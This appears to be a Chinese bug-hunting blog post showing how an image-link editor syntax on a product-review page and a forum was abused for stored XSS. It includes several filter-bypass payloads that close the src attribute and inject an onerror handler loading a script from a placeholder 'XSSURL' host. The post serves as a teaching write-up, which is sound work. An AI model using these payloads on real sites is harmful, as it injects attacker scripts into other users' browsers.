漏洞挖掘 | 一处图片引用功能导致的XSS
山重水复疑无路
漏洞点：站点产品评论处
初步测试
一开始尝试XSS，发现程序有过滤，提交均显示Tags are not permitted，最后测出来的是过滤 < ，不过滤 >

因为提示速度比较快，猜测前端有一层检测。尝试绕过前端检测，burp拦截正常提交的内容，替换xss payload后发送，发现会自动跳转回首页，由此发现程序后端也有内容检测，这里直接xss暂时行不通。
查看编辑器的其他功能：
图片上传：
可上传aspx（其他可能解析后缀均已尝试），不能解析并跳转至首页。
可上传html并解析，这种方式构造的xss通常需要主动攻击，且攻击时易被管理员察觉到异常，暂不考虑。
表情功能：没什么可利用的。
柳暗花明又一村
当看到编辑器提示的 img 外部图片引用方式时引起了我的注意，这里感觉可以操作一下：

正常测试
先来看下正常引用方式时前端的显示，链接被带入到src中（logo前文字涉及域名，打码）：
[img|XSSURL|xxxxx Logo]
带入payload
把xss payload 放在链接的位置再看一下：
常规的payload：
<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';>
构造的payload：
[img|x onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';|xxxxx Logo]提交后审查元素发现为如下显示：

尝试闭合
尝试闭合 x 处的双引号，让 onerror 逃逸出来：
[img|x" onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';|hello]
这里提交后发现payload并没有执行成功，仔细看发现程序输出时分别在 onerror= 和 ; 后面加了双引号。
闭合成功
直接给个 > 让它闭合，虽然成功加载了，但是页面显示会有错误，这样十分容易被发现倪端，不够完美。
[img|x" onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';>|hello]
换个思路通过闭合掉 ; 后面的双引号，显示效果如下：
[img|x" onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';"|hello]
最终在没有任何错误内容显示的情况下成功执行了xss payload：

看到这里可能有人就会想，这种案例触发的xss是不是很少存在，因为毕竟不是每个编辑器都用这种图片外链引用方式，那么请继续看下面。
灵活运用
这几天在搞一个gangdu的论坛，在回复功能处，又遇到了同样的问题。
本来这个功能应该只能放图片链接的，但是这里插入的链接格式和内容并没有做校验。

x onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';这里直接把payload放进去，看下前端显示

同样的思路，这里直接闭合就好了
x" onerror="s=createElement('script');body.appendChild(s);s.src='XSSURL';
成功加载payload

平时渗透的时候，看到功能点不要上去就是蛮干，先预想下这个功能是大概怎么实现的，然后思路猥琐一点，心细一点，往往会有意想不到的收获的，就写到这里吧。

原创投稿作者: Se7nsec